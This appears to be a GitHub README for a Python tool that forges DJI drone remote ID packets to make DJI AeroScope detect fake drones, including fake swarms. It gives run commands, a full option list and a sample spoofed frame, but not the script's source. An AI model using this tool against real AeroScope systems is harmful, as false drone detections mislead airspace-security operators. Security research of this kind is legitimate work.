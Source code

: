 # DJI Drone Spoof Attack
A Python-based command-line tool to simulate DJI drones in the vicinity, exploiting the vulnerabilities in DJI AeroScope *as of May 2022.*

## Background
[DJI AeroScope](https://www.dji.com/aeroscope) systems do not verify the validity of drone remote ID packets, making them susceptible to over-the-air spoofing attacks. An attacker equipped with a network adapter in monitor mode can craft and inject spoofed drone remote ID packets, fooling the AeroScope system into detecting fake drones.

These over-the-air spoofing attacks cannot be mitigated because they exploit an inherent design flaw in DJI’s remote identification technology—**the lack of identity verification**.

## Tool Overview
This Python script enables attackers to create spoofed DJI drone remote ID packets, including:

* Model: Customize fake drone models.
* Packet Type: Choose between different remote ID packet types.
* Altitude & Height: Specify values to simulate drone movements.
* GPS Coordinates: Spoof drone and ground station locations.
* Swarm Attack: Simulate a coordinated swarm of drones.

The spoofed packets are saved in a packet capture `.pcap` file, allowing for analysis or replay attacks. 

The tool supports the generation of various packet types, including[^1]:

* Generic License Plate (serial number only)
* Enhanced Wi-Fi packets
* OcuSync packets

## Disclaimer
This tool is intended for educational purposes only. Do not use it for illegal activities, and always respect local regulations regarding drone usage and airspace security.

## Requirements
To run this tool, you'll need:

* Python dependencies: `scapy`, `binascii`, etc.
* Network adapter: capable of being set to monitor mode on channel 6 via `airmon-ng` package

## Usage

### Basic Command
`sudo python3 dji_spoof.py`

If no drone specified, the script will default to Inspire 1 with legitimate random serial numbers. 

### Help Menu
`sudo python3 dji_spoof.py -h`

This displays all possible command-line arguments:

```
A DJI Remote ID spoofer for UAVs.

optional arguments:
  -h, --help            show this help message and exit
  -m MODEL, --model MODEL
                        Specify the DJI model number to spoof (Inspire 1 is default).
                        A legitimate random serial number will be generated per model.

  -i INTERFACE, --interface INTERFACE
                        the network interface to launch attacks
  --packet PACKET       Input the packet type:

                            0: Generic License Plate (serial number only, not model)
                            2: Enhanced Wi-Fi
                            3: OcuSync (SDR)

  --altitude ALTITUDE   Input the altitude of the drone
  --height HEIGHT       Input the height of the drone
  --DRONE_LON DRONE_LON
                        Input the longitude of the drone
  --DRONE_LAT DRONE_LAT
                        Input the latitude of the drone
  --CONTROLLER_LON CONTROLLER_LON
                        Input the longitude of the controller
  --CONTROLLER_LAT CONTROLLER_LAT
                        Input the latitude of the controller
  --swarm               Flag to enable a swarm drone attack on the AeroScope
  --pcap PCAP           Save the attack as a .pcap file
```

### Spoofed Inspire 1 Example
```
[+] MODEL: Inspire 1
[+] SERIAL NO.: W215AAOZCSAFUJ34
[+] DRONE HEIGHT: 22.4
[+] DRONE LONGITUDE: -110.012052
[+] DRONE LATITUDE: 35.294722
[+] CONTROLLER LONGITUDE: -95.957371
[+] CONTROLLER LATITUDE: 35.284722
[+] PACKET TYPE: Enhanced Wi-Fi (2)

====================== Frame =========================
0000  00 00 08 00 00 00 00 00 80 00 00 00 FF FF FF FF  ................
0010  FF FF 01 02 03 04 05 06 01 02 03 04 05 06 00 00  ................
0020  00 08 36 52 53 47 4E 4A 57 35 01 04 01 05 07 09  ..6RSGNJW5......
0030  03 01 0B DD 52 26 37 12 58 62 13 10 01 41 00 DF  ....R&7.Xb...A..
0040  0F 57 32 31 35 41 41 4F 5A 43 53 41 46 55 4A 33  .W215AAOZCSAFUJ3
0050  34 2B 05 DB FE DB FE 5D 00 81 00 E0 00 43 00 B8  4+.....].....C..
0060  00 3E 00 D9 00 75 00 17 00 38 73 00 FF 09 F8 5D  .>...u...8s....]
0070  00 01 12 35 37 36 39 36 33 39 33 39 32 34 32 39  ...5769639392429
0080  39 31 31 31 31 00 00                             91111..

[*] Press enter to launch attack...
```

## Licensing
This project is licensed under the terms of the MIT license.

[^1]: https://www.researchgate.net/profile/Margaret-Smith-18/publication/372509234_The_Irregulars_Third-Party_Cyber_Actors_and_Digital_Resistance_Movements_in_the_Ukraine_Conflict/links/660bddad10ca867987365aff/The-Irregulars-Third-Party-Cyber-Actors-and-Digital-Resistance-Movements-in-the-Ukraine-Conflict.pdf#page=295
